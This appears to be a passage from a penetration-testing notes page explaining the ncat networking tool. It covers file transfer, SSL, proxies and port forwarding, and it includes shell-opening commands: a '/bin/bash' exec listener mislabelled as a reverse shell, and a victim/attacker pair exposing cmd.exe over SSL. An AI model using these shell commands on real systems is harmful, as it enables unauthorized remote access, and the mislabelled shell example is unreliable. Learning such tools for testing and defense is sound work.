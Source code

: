 - To send a file to a remote server:

```
ncat <server_ip> <port> < file.txt
```

- To receive a file from a remote server:

```
ncat -l <port> > file.txt
```

### Advanced Usage

Ncat also supports various advanced features, such as SSL encryption, proxy connections, and port forwarding. Here are some examples of how to use these features:

- To establish an SSL-encrypted connection:

```
ncat --ssl <server_ip> <port>
```

- To connect through a proxy server:

```
ncat --proxy <proxy_ip>:<proxy_port> <server_ip> <port>
```

- To forward a local port to a remote server:

```
ncat -l <local_port> --sh-exec "ncat <remote_ip> <remote_port>"
```

- To create a reverse shell:

```
ncat -l -p <port> -e /bin/bash
```

### Conclusion

Ncat is a versatile networking utility that can be used for a wide range of tasks. Whether you need to establish connections, transfer files, or create encrypted tunnels, Ncat provides a simple and powerful solution.
```bash
victim> ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl
attacker> ncat -v 10.0.0.22 4444 --ssl
```
<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>
